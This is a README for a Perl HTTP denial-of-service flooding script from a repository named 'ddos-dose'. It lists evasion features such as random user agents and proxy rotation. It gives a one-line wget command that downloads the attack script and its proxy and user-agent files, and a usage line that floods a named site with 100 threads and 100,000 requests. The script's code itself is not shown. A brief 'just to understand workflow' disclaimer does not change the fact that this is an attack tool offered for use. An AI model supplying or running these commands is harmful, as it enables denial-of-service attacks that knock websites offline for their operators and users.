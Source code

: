 
# Script for HTTP DDoS Attack (Custom Modification) ↓

## Features

- Send request with Random User-agent, Read user-agent from Local file, With Proxy
- multi-threading
- Basic Perl script
- Url Path, Threads, Number of Request,GET-POST, rate-limit, timeout (Customization)
- customizable Headers
- Easy to Customize for beginners
- Define Number of request to be send to target
- Can modify Delay btween next request
- Can be used with or without Proxy
- Language: Perl
- Just to understand workflow!





## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE-CUSTOM%20%7C%20ID%3A2A/http.pl && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/user.txt && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE-CUSTOM%20%7C%20ID%3A2A/proxy.txt && yes | perl -MCPAN -e'install "LWP::Simple"' && yes | apt-get install libwww-perl && chmod 777 *

```
## Usage

```
perl http.pl --url http://dultr.in/ --urlpath / --threads 100 --num_requests 100000 --method GET --rate_limit 10 --timeout 10 --proxy_list proxies.txt --user_agents user.txt 
perl http.pl --url <url> --urlpath <path> --threads <no_of_threads> --num_requests <no_of_req> --method <req_method> --rate_limit <rate_limit time> --timeout <proxy connection timeout time> --proxy_list <path of proxy file> --user_agents <path of user-agent file> 
```
```
---> Script Read User-agent from a file "user.txt" or proxy from "proxy.txt" in same dir, if not 
present it's automatically run with a specif user-agent or using instance except proxy.
```
```
-> (Line80) -> Add/Remove Headers.
-> Other parameters are being passed with command, you can customize that. 
```

## Check this Script Also for better Understanding ->

Click Below ↓

[Click Here for that Script](https://github.com/cyberceros/ddos-dose/tree/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID:1A)


## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in
